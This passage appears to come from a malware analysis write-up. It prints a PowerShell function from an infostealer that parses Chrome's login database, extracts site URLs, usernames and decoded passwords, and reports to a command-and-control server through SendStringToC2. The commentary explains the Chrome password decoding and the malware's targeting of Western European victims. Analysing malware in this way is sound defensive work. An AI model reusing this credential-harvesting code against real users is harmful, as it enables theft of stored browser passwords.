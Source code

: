 ```csharp
    If ($Payload.Length -eq 0) { Return }
    [ref]$VarintSize = 0;
    $HeaderLength = ParseVarint $Payload[0 .. 8] $VarintSize 
    $Offset = $VarintSize.Value;
    $FieldSeq = @()
    For ($y = $Offset; $y -lt $HeaderLength; $y++)
    {
        $Serial = ParseVarint $Payload[$y .. ($y + 8)] $VarintSize
        $y += $VarintSize.Value - 1
        Switch ($Serial) 
        {
          {$_ -lt 0xA} { $Len = $SerialMap[$Serial]; break } # Segment Mapping
          {$_ -gt 0xB} {   # Decode Field
              If ($Serial % 2 -eq 0) { $Len = (($Serial - 0xC) / 2) }
              Else { $Len = (($Serial - 0xD) / 2) }
          }
        }
        $FieldSeq += $Len;
    }
    $Offset = $HeaderLength;
    For ($f = 0; $f -lt $FieldSeq.Length; $f++)
    {
      $Str = $Encoding.GetString($Payload[$Offset .. ($Offset + $FieldSeq[$f] - 1)])
      $isBlack = 0
      #Switch option ?  -> value : 0 -> url, 3 -> username, 5 -> pwd to decode 
      If ($f -eq 0) { $url = $Str }
      ElseIf ($f -eq 3) { $user = $Str }
      ElseIf ($f -eq 5) { $pwd = DecodePasswordChrome($Payload[$Offset .. ($Offset + $FieldSeq[$f] - 1)]) }
      $Offset += $FieldSeq[$f]
    }
    if(-Not($user -like '^\u0001*') -and -Not($user -like '^\u0000')) # Mapping different on Chrome, check it
    {
      If ($user.Length -gt 0 -or $pwd.Length -gt 0) #Add collected info as chrome cred
      { 
        $url = ([System.Uri]$url).Host
        if($global:chromeInfo[$url] -eq $null) { $global:chromeInfo[$url] = @()}
        $global:chromeInfo[$url] += @{[string]$user = [string]$pwd}
      }
    }	
  }
  catch { SendStringToC2 "crederror=ERR:ParsePayloadSQLite: $($_.Exception.Message)"; } 
}
```

<h6>The next section of code defines the function for decode the passwords from Chrome browser. Like for Mozilla, this checks the presence of the profile but can't check more for getting debug informations. We can note that the encoding code is for the Latin languages victims ( ISO-8859-1 -> Western Europe). The comparative method is different too, instead of parse each address of the cells, on Chrome, this structure is defined and can be parsed by the specific location on the stream. Once this done, this parse the data with the dll like Mozilla for getting the data and push on the list of dumped chrome credentials.</h6>

